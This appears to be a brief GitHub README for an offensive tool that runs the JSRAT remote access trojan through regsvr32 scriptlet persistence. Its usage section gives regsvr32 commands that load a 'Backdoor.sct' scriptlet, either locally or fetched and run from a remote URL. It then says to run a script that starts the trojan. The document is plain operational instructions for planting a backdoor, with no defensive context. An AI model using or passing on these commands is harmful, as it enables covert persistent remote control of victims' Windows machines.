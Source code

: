Another way of JSRAT on SCTPersistence.
---

Thanks to Casey Smith@subTee

https://github.com/subTee/SCTPersistence


---
###Usage:

1.(local)


regsvr32.exe /s /i:Backdoor.sct scrobj.dll


or (remote)


regsvr32.exe /s /i:http://example/Backdoor.sct scrobj.dll


2.run BackdoorTest.js to start JSRAT

 













